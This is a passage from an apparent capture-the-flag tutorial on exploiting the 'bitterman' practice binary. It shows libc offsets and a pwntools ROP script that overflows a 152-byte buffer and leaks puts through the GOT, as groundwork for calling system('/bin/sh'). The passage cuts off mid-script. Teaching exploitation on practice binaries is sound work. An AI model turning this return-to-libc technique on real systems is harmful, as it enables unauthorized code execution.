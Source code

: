 Also we need the string “/bin/sh” to get a shell after exploitation

`strings -t x libc.so.6 | grep "/bin/sh"`

![https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_15_55.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_15_55.jpg)

Let’s edit our exploit script and calculate the offsets but first let’s sum up what new addresses we have got till now

- main() address in bitterman binary : 0x4006ec
- puts() address in libc.so.6 : 0x705e0
- system() address in libc.so.6 : 0x435d0
- “/bin/sh” string in libc.so.6 : 0x17f573

```python
from pwn import *

# Here we define the context of the exploit, it is for linux os and amd64 archeticture

context(os='linux', arch='amd64')

p = process('./bitterman')

put_plt_addr = p64(0x400520)

put_got_addr = p64(0x600c50)

main_plt_addr = p64(0x4006ec) # new

pop_rdi_gadget = p64(0x400853)

# The first 152 bytes of our payload are junk input before we overwite the RSP

junk = 'A'*152

payload = junk

payload += pop_rdi_gadget

payload += put_got_addr

payload += put_plt_addr

payload += main_plt_addr

# This is our input and output of the program we will use them them

"""

> What's your name?

Amr

Hi, Amr

> Please input the length of your message:

1000

> Please enter your text:

test

> Thanks!

```